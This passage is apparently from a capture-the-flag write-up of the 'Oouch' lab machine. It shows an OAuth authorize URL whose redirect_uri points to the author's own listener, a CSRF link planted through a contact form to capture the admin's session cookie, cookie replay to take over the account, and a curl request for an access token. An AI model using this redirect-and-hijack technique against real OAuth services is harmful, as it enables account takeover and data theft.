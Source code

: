 {{< figure src="__GHOST_URL__/content/images/2020/05/image-26.png" >}}

When we look at this we see we can choose some valuable info. We can send our redirect URI back to our attacking machine. So we register an app with the following:

{{< figure src="__GHOST_URL__/content/images/2020/05/image-32.png" >}}

But I can't seem to access this application. Some research shows I need to go to the URL supplying all the parameters I previously made. So my application url would be as follows:
```
http://authorization.oouch.htb:8000/oauth/authorize/?client_id=IDHERE&redirect_uri=http://10.10.14.50:6969&grant_type=authorization_code&client_secret=SECRETHERE
```

When I try to access this it seemingly hangs. Now if I load up a `netcat` listener on my `redirect_uri` port, I get an HTTP request:

{{< figure src="__GHOST_URL__/content/images/2020/05/image-28.png" >}}

This is good actually, this is the same response code we got previously when attempting the CSRF against the admin account. We'll use the same technique to try and get the admin account session data. We go back to the contact form and submit our link:

{{< figure src="__GHOST_URL__/content/images/2020/05/ouch_admin_session.gif" >}}

Eventually we get back a sesionid cookie. We can now edit our local cookies an apply this one. We head over to `authorization.oouch.htb:8000` and see we are logged in as our test account. We open up our dev tools. Go to Storage. Then modify our sessionid value with our new one and boom, we get qtc's access.

{{< figure src="__GHOST_URL__/content/images/2020/05/image-29.png" >}}

Now we see two more resource links, `Authorize` and `token`. Now when we try to go to `token` URL, `Burpsuite` gives us the response.

{{< figure src="__GHOST_URL__/content/images/2020/05/image-30.png" caption="" >}}

We can only POST to this URL. If we try to send a POST to this page we get an error of 'Unsupported grant type"

{{< figure src="__GHOST_URL__/content/images/2020/05/image-33.png" >}}

A quick search around the internet lead me to this [post](https://stackoverflow.com/questions/43201731/django-oauth2-unsupported-grant-type). Following this methodology of adding the variables we created in our application earlier should let us get some kind of token back.

We issue the following `curl` command:
```
curl -X POST 'http://authorization.oouch.htb:8000/oauth/token/' -H "Content-type: application/x-www-form-urlencoded" --data "grant_type=client_credentials&client_id=MrzSIKUdAWfqXVNiCZUHnaYmnw1EQpbl4FWWyupl&client_secret=CtHS7rPyQgOasuSPb7hPdwoUMAHmVnwLIIKmSsV2BtANlIohq8xH4bxT7sHHT2e6QNaAFa7UMtUAuA1d4DbN91Adm4WRVse3VqOp0x7uyntWbW9oi10bkgAxJDk9UsOR"
```

{{< figure src="__GHOST_URL__/content/images/2020/05/image-31.png" >}}

We indeed get a access token back! I wasn't able to find much in terms of using this token under the OAuth structure. When we look back at what we've done so far we see that there is another strucure to use `/api/get_users`. When we navigate to that location and supply our access token, we get our users data set.
